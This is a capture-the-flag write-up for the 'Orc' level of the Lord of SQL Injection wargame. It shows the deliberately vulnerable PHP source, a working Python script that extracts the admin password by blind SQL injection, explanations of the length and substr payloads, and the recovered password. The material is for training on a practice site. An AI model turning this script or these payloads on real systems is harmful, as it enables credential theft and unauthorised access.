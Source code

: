 #Lord Of SQL Injection

###Orc

[Orc chall link](https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php)

Source code of this chall:
<pre>
    <code>
    	<?php 
  	  include "./config.php"; 
	  login_chk(); 
	  dbconnect(); 
	  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
	  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if($result['id']) echo "<h2>Hello admin</h2>"; 
	  $_GET[pw] = addslashes($_GET[pw]); 
	  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
	  highlight_file(__FILE__); 
	?>
    </code>
</pre>

In this chall, your object is to find the password because i already used many commnand like `' or 1=1 -- ;` and get no response :( . After many times trying, i try Blind SQL Injection and get the thing i want. You will bruteforce to find every character of the password.


You can devide this chall into 2 phase:
1. Find the length of the password
2. Find every character of the password

This is my code to solve this problem:
<pre>
    <code>
    	import requests
	import string

	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
	my_cookies = {"PHPSESSID":"your PHPSESSID here"}
	passwd = ""
	passwdlen = 0
	for i in range(0,10):
	    print("Checking if the password length is " + str(i))
	    payload = "' or id='admin' and length(pw)=" + str(i) + " -- ;"
	    payload = requests.utils.quote(payload)
	    final_url = url + payload
	    res = requests.get(final_url,cookies=my_cookies)
	    if "Hello admin" in res.text:
		print("FOUND! Password length is " + str(i))
		print("-------------------------------------------------")
		passwdlen = i
		break
	    else:
		print("FAIL!")
		print("-------------------------------------------------")



	for i in range(1,passwdlen+1):
	    for c in string.digits + string.ascii_lowercase:
		payload = "'or id='admin' and substr(pw,"+str(i)+",1)='" +c+ "' -- ;"
		payload = requests.utils.quote(payload)
		final_url = url + payload
		res = requests.get(final_url,cookies=my_cookies)
		if "Hello admin" in res.text:
		    passwd+=c
		    print(final_url)
		    print("Found a new char of password: " + passwd)
		    break
	print("The password is: " + passwd)
    </code>
</pre>

The two library which i used in this code is requests library and string library. The requests library is used to send data to the server, and the string library to get all the digit and lowercase letter as string for the second loop. Maybe you don't understand why i didn't use the uppercase letter or why the range of the first loop is 0->10, that's a secret :) You will know that secret after you solved this chall :D

In the first for loop, i find the password length. After that, i use the password's length i had found before as an end of range for the second for loop. And also, in this chall you must use you cookies to pass into the header of the request you make. If you didn't do that, this code will fall because the server will redirect you to the login page :<

I will explain two payload i used in this chall:

1. The first loop payload

<pre>
    <code>
    	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and length(pw)=" + str(i) + " -- ;"
    </code>
</pre>

I find the password by using a single quote to end the query which already open in the query of the program. Then i find the length of the `pw` parameter by loop through a range from 0 to 10. If the length of the `pw` is correct, the line "Hello admin" will appear. You can rely on that line to bruteforce the length of the password. And please remember that after ` --` is a space and a ";" symbol. Because in MySQL, after a comment you must leave a space, but if you leave only the space with no character after that space, the space will be cut off automatically so i choose a ";" symbol, you can choose whatever you want, just make sure the space after the comment exist.

2. The second loop payload

<pre>
    <code>
	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and substr(pw,"+ str(i) +",1)='" +c+ "' -- ;"
    </code>
</pre>

In the second loop, i find every character of the password using bruteforce again. The substr() function will extract a substring from a string, in this case is the passwd. You can read about the substr() function on the internet to know more about how it work. 

And after two loop, you can find the password is 095a9852
